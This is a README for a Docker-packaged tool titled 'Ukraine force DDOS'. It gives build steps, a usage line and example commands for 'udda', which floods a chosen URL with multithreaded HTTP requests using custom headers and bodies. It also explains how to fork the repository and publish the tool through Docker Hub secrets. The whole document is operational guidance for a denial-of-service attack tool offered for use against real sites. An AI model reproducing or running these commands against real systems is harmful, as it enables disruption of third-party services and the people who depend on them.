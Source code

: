 #Ukraine force DDOS

[![docker](https://github.com/nlemeshko/ukrineforce/actions/workflows/docker.yml/badge.svg)](https://github.com/nlemeshko/ukraineforce/actions/workflows/docker.yml)

### Variables:

- **headers.json**
- **body.json**

### Build:
```docker build -t ukraineforce .```


### Usage:
``` udda [URL] [METHOD] [THREADS] [BODY_JSON_FILE_PATH] [HEADERS_JSON_FILE_PATH] [flags] ```

Flags:
-h, --help   help for udda


Example:

```docker run --rm -d ukraineforce ./udda udda http://127.0.0.1:5894/api/v1/oauth/token POST 20 body.json headers.json```

### Alternative usage

```git clone https://github.com/nlemeshko/ukraineforce.git```
```Change headers and body```
```docker run --rm -d mdsn/ukraineforce ./udda udda [URL] POST 20 body.json headers.json```

### Fork usage:

- **Fork repository and clone**
- **Add to repository three secrets**
    - **DOCKERHUB_USERNAME** - Your Dockerhub username
    - **DOCKERHUB_TOKEN** - Your Dockerhub password
    - **DOCKERHUB_PATH** - Your path to Dockerhub
- **Change headers, body and push**
- **run command:**
    - ``` docker run --rm -d [DOCKERHUB_PATH] ./udda udda [URL] POST 20 body.json headers.json```